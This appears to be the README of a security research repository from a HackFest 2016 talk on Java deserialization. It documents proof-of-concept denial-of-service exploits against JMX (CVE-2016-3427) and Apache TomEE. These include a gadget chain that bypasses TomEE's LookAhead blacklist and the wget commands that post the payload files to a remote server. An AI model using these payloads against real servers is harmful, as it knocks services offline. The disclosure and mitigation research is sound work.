

# Fixing the Java Serialization mess
Supporting source code for a [HackFest 2016 presentation](https://hackfest.ca/en/speakers/#ernst)


## Installation
```bash
mvn install
```

## Content

### POC for [CVE-2016-3427](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3427)
Class `com.salesforce.trust.s11n.exploit.JmxClient`

Tries to:

1. Connect to the provided JMX server using the *long* connection string syntax
2. Connect to the provided JMX server using the *RMI* connection string syntax.
  * Sends the provided user name and password as credentials.
  * Sends a [Malicious Set instance](https://gist.github.com/coekie/a27cc406fc9f3dc7a70d) as credentials, in order to cause a Denial of Service attack on the JMX server. Only works when the server runs Java 8 u 77 (or earlier)
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.JmxClient hostName registryPort jmxPort userName
```

### POC for Denial of Service attack
Class `com.salesforce.trust.s11n.exploit.JreOutOfMemory`

Throws `OutOfMemoryError` when deserializingin doctored instances of various well known classes
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core-4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.JreOutOfMemory
```

### POC for Apache TomEE Denial of Service
Class `com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass`

Generates a 'regular' DOS gadget that can be used on older versions of [Apache TomEE](http://tomee.apache.org/apache-tomee.html) (before LookAhead validation was added, 1.7.3 or older)
#### Gadget chain: 
```
ObjectInputStream.readObject() 
  HashSet.readObject()
```
#### Usage:
Generate a binary file containing a DOS payload:
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core-4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass regular
```
Send the file to the remote TomEE server:
```bash
wget --post-file tomee1.ser http://remote-server:8080/tomee/ejb
```

### POC for bypassing [LookAhead Mitigation](http://www.ibm.com/developerworks/library/se-lookahead/) in [Apache TomEE](http://tomee.apache.org/apache-tomee.html) version 1.7.4
Class `com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass` can also generate a different gadget that can bypass TomEE mitigation.
TomEE is secure by default, since everything is black-listed when you install it.
#### File `conf/system.properties`
Upon install, the file contains these 2 lines:
```
tomee.serialization.class.blacklist = *
# tomee.serialization.class.whitelist = my.package
```

To enable OpenEJB, we want to restrict the black list to known malicious classes, and we want to include our legitimate classes in the white list:
```
tomee.serialization.class.blacklist = java.util.HashSet
tomee.serialization.class.whitelist = bonhomme.Carnaval, java, org.apache
```

This configuration provides an adequate mitigation against the DOS attack however, it can be bypassed by this new gadget:

#### Gadget chain: 
```
ObjectInputStream.readObject()
  EventImpl.readObject()
    OwbCustomObjectInputStream.readObject()
      HashSet.readObject()
```
#### Usage:
Generate a binary file containing a DOS payload (note the `bypass` flag):
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core-4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass bypass
```
Send the file to the remote TomEE server:
```bash
wget --post-file tomee2.ser http://remote-server:8080/tomee/ejb
```

### POC for LookAhead Bytecode Blacklist
#### Input validation flow

#### Code
Package `com.salesforce.trust.s11n.mitigation`